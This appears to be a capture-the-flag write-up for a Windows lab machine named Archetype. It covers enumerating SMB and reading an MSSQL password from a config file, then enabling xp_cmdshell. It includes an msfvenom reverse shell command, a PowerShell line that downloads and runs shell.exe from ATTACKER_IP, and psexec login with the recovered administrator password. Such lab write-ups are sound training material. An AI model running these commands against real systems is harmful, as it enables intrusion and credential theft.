| Difficulty |  |  IP Address   |  |
| :--------: |--| :-----------: |--|
|  Very Easy |  |  10.129.82.74 |  |

---

### [ Which TCP port is hosting a database server? ]

Let's run a basic nmap scan on the target machine. As always, we load in standard scripts (-sC) and enable version enumeration (-sV).

```
sudo nmap -sC -sV -vv -T4 10.129.82.74
```



From the results, we can see that 4 ports are open: **135 (RPC)**, **139 (SMB)**, **445 (SMB)** and **1433 (MSSQL server)**

The database server is being hosted on port **1433**.

---

### [ What is the name of the non-Administrative share available over SMB? ]

Let's use `smbclient` to list out all of the shares on the SMB server that we can access:

```
smbclient -L 10.129.82.74
```



There is a non-administrative share of interest: **backups**

---

### [ What is the password identified in the file on the SMB share? ]

Let's login into the **backups** share:

```
smbclient //10.129.82.74/backups
```



There is a file called **prod.dtsConfig**. We can download it onto our local machine using the `get` command.

**Contents of prod.dtsConfig:**



*(A DTSCONFIG file is an XML configuration file used to apply property values to SQL Server Integration Services (SSIS) packages. The file contains one or more package configurations that consist of metadata such as the server name, database names, and other connection properties to configure SSIS packages)*

We can identify a password in the config file:

> M3g4c0rp123

---

### [ What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server? ]

mssqlclient.py

---

### [ What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell? ]

After doing some research online, I came across this useful [information](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15):

*xp_cmdshell spawns a Windows command shell and passes in a string for execution. Any output is returned as rows of text.*

Extended stored procedure: **xp_cmdshell**

---

### [ What script can be used in order to search possible paths to escalate privileges on Windows hosts? ]

[WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

---

### [ What file contains the administrator's password? ]

Let's log into the MSSQL server using the **mssqlclient.py** script from impacket.

*(Steps on how to do so can be found from [here](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server))*

From the config file earlier, we know that the username is:

> sql_svc 

And the password is:

> M3g4c0rp123

Also, from our nmap scan, we also know that the domain name is **ARCHETYPE**.

With that, we can log into the MSSQL server:

```
python3 mssqlclient.py -windows-auth ARCHETYPE/sql_svc:M3g4c0rp123@10.129.82.74
```



Now let's try to enable **xp_cmdshell**. If enabled, we will be able to run shell commands from within the SQL CLI.

```
enable_xp_cmdshell
```



Now that xp_cmdshell is enabled, let's try running a basic `whoami` command:

```
xp_cmdshell whoami
```



Nice, it works!

Now let's try to open a reverse shell into the machine. First, we have to generate a reverse shell payload for Windows. We can use  `msfvenom` to do so:

```
msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=ATTACKER_IP LPORT=4444 -f exe -o shell.exe
```

Once we have our reverse shell payload, we can run the following command in the MSSQL CLI:

```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://ATTACKER_IP:8000/shell.exe -outfile shell.exe; .\shell.exe"
```

This command does a few things:

1. It uses powershell and the `-c` option to run the subsequent commands.
2. It first navigates to **C:\Users\sql_svc\Downloads** as that is a directory which is writeable by us.
3. It then uses `wget` to download our generated reverse shell payload from our local machine. Make sure to have a HTTP server up and running first.
4. Finally, it executes the reverse shell script, thus opening up the reverse shell.


With a netcat listener up and running, we soon gain access into the target machine via the reverse shell:



Now that we're in, let's download **WinPEAS** onto the target machine (make sure to have a HTTP server running).

```
powershell -c wget http://ATTACKER_IP:8000/winPEASx86.exe -outfile winpeas.exe
```

Looking through the results of the WinPEAS scan, I noticed an interesting file:



Looks like there is a PowerShell history file called **ConsoleHost_history.txt**:



This file contains the administrator's password!

---

### [ Submit user flag ]

The administrator's password is:

> MEGACORP_4dm1n!!

Let's now use the **psexec.py** script from impacket to open a connection to the target machine using our newfound credentials:

```
python3 psexec.py administrator@10.129.82.74
```



And just like that, we're now in the machine as **NT AUTHORITY\SYSTEM**!

We can grab the **user flag** from the desktop of the **sql_svc** user:



---

### [ Submit root flag ]

The **root flag** can be found in the desktop of the **Administrator** user:


